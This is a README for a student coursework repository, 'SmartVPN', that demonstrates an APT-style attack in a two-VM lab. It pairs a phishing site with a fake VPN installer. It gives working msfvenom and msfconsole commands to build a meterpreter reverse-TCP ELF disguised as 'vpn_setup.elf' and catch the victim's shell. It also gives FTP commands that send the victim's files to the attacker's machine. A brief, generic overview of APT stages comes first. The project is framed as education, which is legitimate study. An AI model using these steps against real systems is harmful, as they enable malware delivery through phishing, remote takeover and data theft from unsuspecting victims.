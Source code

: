 ## SmartVPN

This is a repository containing code for demonstration of APT attacks for Introduction to Cyber Security Coursework in IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

Note: This is only for educational purposes!


## Project Contributors

- Pranauv Kumar
- Rahul Aggarwal
- Sai Swetha M
- Anurag Yadav

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firstly, Clone the project to have the Fake VPN Website ready for the victim to download the malicious VPN setup file. 

```bash
git clone https://github.com/Pranauv-Kumar1803/ICS.git
```

Go to the project directory

```bash
cd ICS
```

Install dependencies in both client and server folder

```bash
npm install
```

Start the server

```bash
npm start
```

Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole (Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for the Ubuntu.

From here, we access the SmartVPN website that is hosted on port 8000 of 192.168.100.4 and download the vpn setup from the website and we run it!

Boom!

Now, we have a hit in the Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect from the victim's shell to the attacker's computer to exfiltrate some data (some random dummy.pdf files from victim's computer)
to do this, type the fllg in the shell spawned in the Kali,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
``` 

put command here sees the dummy.pdf in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Now we are done with the whole demonstration!
